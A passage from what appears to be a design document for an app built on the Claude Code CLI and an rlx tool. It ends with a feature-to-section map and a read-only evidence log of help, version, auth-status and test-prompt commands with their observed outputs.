| Slack digest, Gmail (five sections), clock, timer, pomodoro | §5.6 |
| Named agent; sign-off with one homepage constant | §7 |
| Safe sends: three modes | §8 |
| rlx powers both modes; rlxd | §2, §15 |
| rlx's `r\x` mark and themes | §10 |
| Name, bundle ID, builds, merge model, testing | §1, §11, §13 |

## 18. Evidence log

All read-only: no sign-in or sign-out, no connector tool call, nothing sent.

| ID | Command | Showed |
|---|---|---|
| E1, E8 | `claude --version`; `claude install --help`, `claude update --help` | `2.1.332`; native install, self-update |
| E2 | `claude --help` | The flags cited above; `-p` skips the trust dialog; `--bare`: "OAuth and keychain are never read" |
| E3 | `claude auth login --help`, `claude auth status --help` | `--claudeai` default; `--json` |
| E4 | `claude auth status --json` (values redacted) | `loggedIn`, `authMethod: "claude.ai"`, `subscriptionType`, `analyticsDisabled` |
| E5 | `claude mcp login --help` | "HTTP, SSE, or claude.ai connector"; `--no-browser` |
| E6 | `claude -p "Reply with the single word OK. Do not call any tools." --output-format stream-json --verbose --tools "" --no-session-persistence --permission-mode dontAsk --permission-prompts none --setting-sources project`, empty directory, stdin open | Both connectors `connected`, 67 tools, `apiKeySource: "none"` |
| E7 | E6 without `--setting-sources project` | First event `system/hook_started` |
| E9 | E6 with `</dev/null`; then with `(sleep 6) \|` | No servers, 0 tools; then one `connected`, one `pending`, 8 tools |
| E10 | E6 without `--verbose` | Exit 1: "When using --print, --output-format=stream-json requires --verbose" |
| R1 | `rlx --version` | `rlx 0.10.1`; source read at `c6b523c3` |
| R2 | `rlx --help` | `login` (AISquare), `ui`, `fleet` ("each a tmux pane") |
| R3 | `rlx --json accounts list --help` | `--usage`, `--refresh` |
| R4 | `rlx --json connectors list` | `{"error":"not_implemented",…}`, exit 70 |
| R5 | `rlx upgrade --help` | `--yes` "required off a terminal" |
| R6, R7 | `rlx serve --help`; `rlx remote serve --help` | MCP server, bearer token; `--auto-off`, ngrok |
| R8 | `rlx watch --help` | `--detach` "in a window of the fleet's tmux server" |
